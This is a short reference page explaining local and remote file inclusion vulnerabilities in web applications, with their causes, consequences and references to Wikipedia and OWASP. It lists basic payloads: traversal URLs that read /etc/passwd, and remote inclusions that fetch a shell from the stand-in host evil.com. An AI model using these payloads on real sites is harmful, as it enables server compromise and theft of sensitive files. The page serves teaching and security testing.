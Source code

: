 File Inclusion
------------------------------------------------------------
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Can lead to:
------------------------------------------------------------
Code execution on the web server.       
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS).      
Denial of Service (DoS).      
Sensitive Information Disclosure.  


Types:
------------------------------------------------------------
1) Local File Inclusion(LFI) - is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. 


2) Remote File Inclusion(RFI) - occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an HTTP or FTP URI as a user-supplied parameter to the web application.

Basic payloads LFI:
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

Basic payloads RFI:
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

References
------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)  
[Owasp](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
